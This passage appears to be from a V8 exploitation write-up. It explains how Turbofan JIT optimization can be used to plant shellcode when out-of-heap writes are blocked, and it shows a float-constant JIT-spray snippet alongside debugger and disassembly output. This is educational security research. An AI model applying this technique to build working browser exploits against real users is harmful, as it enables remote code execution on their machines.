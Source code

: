 ## Preview of how to get code execution

We can no longer write data outside of the heap, but writing shellcode problem is still feasible through Turbofan function optimization.

Javascript is a dynamic type language, which means when you call a function, the engine has to looks up information about object types at runtime. If the function is called so many times, it will be considered **hot** and Turbofan JIT compiler will generate an optimized version of that function with the specified types information.

For example, if you call a function the first time and check its struct:
```js
function foo() {
  return [-1.1885958788264018e+148]; // 0xdeadbeefcafebafe
}
foo();
%DebugPrint(foo);
```

you'll see its code here is of type `Code BUILTIN InterpreterEntryTrampoline`, which means it has to jump to a stub code to identify type information.
```
DebugPrint: 0x28b600198b51: [Function] in OldSpace
 - map: 0x28b600181ea1 <Map[32](HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x28b600181dc9 <JSFunction (sfi = 0x28b600141855)>
 - elements: 0x28b600000725 <FixedArray[0]> [HOLEY_ELEMENTS]
 - function prototype: 
 - initial_map: 
 - shared_info: 0x28b600198825 <SharedFunctionInfo foo>
 - name: 0x28b6001985f1 <String[3]: #foo>
 - builtin: InterpreterEntryTrampoline
 - formal_parameter_count: 0
 - kind: NormalFunction
 - context: 0x28b600181729 <NativeContext[295]>
 - code: 0x28b600026c35 <Code BUILTIN InterpreterEntryTrampoline>
 - interpreted
 - bytecode: 0x250c000404e1 <BytecodeArray[5]>
 - source code: () {
  return [-1.1885958788264018e+148];
}
pwndbg> job 0x28b600026c35
0x28b600026c35: [Code] in ReadOnlySpace
 - map: 0x28b600000d61 <Map[60](CODE_TYPE)>
 - kind: BUILTIN
 - builtin_id: InterpreterEntryTrampoline
...
pwndbg> disass 0x57dfb608fc80,+0x100
Dump of assembler code from 0x57dfb608fc80 to 0x57dfb608fd80:
   0x000057dfb608fc80 <Builtins_InterpreterEntryTrampoline+0>:  mov    r11d,DWORD PTR [rdi+0xf]
   0x000057dfb608fc84 <Builtins_InterpreterEntryTrampoline+4>:  add    r11,r14
   0x000057dfb608fc87 <Builtins_InterpreterEntryTrampoline+7>:  mov    WORD PTR [r11+0x2b],0x0
   0x000057dfb608fc8e <Builtins_InterpreterEntryTrampoline+14>: mov    r10d,DWORD PTR [r11+0x3]
   0x000057dfb608fc92 <Builtins_InterpreterEntryTrampoline+18>: test   r10d,r10d
   0x000057dfb608fc95 <Builtins_InterpreterEntryTrampoline+21>: je     0x57dfb608fe58 <Builtins_InterpreterEntryTrampoline+472>
   0x000057dfb608fc9b <Builtins_InterpreterEntryTrampoline+27>: test   r10b,0x1
   0x000057dfb608fc9f <Builtins_InterpreterEntryTrampoline+31>: je     0x57dfb608fcbb <Builtins_InterpreterEntryTrampoline+59>
...
```
